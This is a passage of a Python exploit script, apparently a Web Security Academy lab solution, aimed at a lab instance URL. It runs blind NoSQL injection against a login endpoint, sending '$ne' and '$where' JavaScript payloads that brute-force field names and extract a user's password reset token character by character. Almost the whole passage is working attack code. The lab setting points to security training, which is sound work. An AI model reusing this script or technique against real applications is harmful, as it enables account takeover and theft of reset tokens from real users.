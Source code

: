 ```python
                if not isValidCharacter and isLastCharacter and isEmptyFieldName:
                    print(f'[-] Looped through all possible characters, no luck. This field position {fieldPosition} doesn\'t have a field?')
                    return
                if not isValidCharacter and isLastCharacter:
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Field name: {fieldName}')
                    return
                if isValidCharacter:
                    fieldName += character
                    print(f'\n[+] Found valid character "{character}" on field position {fieldPosition}')
                    break

    def extractFieldData(self, fieldName):
        username = 'carlos'
        password = {
            '$ne': 'foobar'
        }
        characterIndex = 0
        foundResetToken = str()
        while True:
            for character in self.CHARACTER_SET:
                payload = f'this.pwResetTkn[{characterIndex}] == "{character}"'
                print(f'[*] Trying payload: {payload}', end='\r')
                loginData = {
                    'username': self.USERNAME,
                    'password': self.PASSWORD,
                    '$where': payload
                }
                loginRespond = requests.post(f'{self.baseUrl}{self.LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isLastCharacter = character == self.LAST_CHARACTER

                if not isValidCharacter and isLastCharacter:
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Password reset token: {foundResetToken}')
                    return
                if isValidCharacter:
                    foundResetToken += character
                    print(f'\n[+] Found valid character "{character}" on character position {characterIndex}')
                    characterIndex += 1
                    break

if __name__ == '__main__':
    baseUrl = 'https://0a5d009d04e55d29804112b8009f007b.web-security-academy.net'
    exploit = Exploit(baseUrl)

    # you can change your minimum/maximum field position here
    # MINIMUM_FIELD_POSITION = 0
    # MAXIMUM_FIELD_POSITION = 4
    # for fieldPosition in range(MINIMUM_FIELD_POSITION, MAXIMUM_FIELD_POSITION):
    #     exploit.extractFieldNames(fieldPosition)

    FIELD_NAME = 'pwResetTkn'
    exploit.extractFieldData(FIELD_NAME)
```
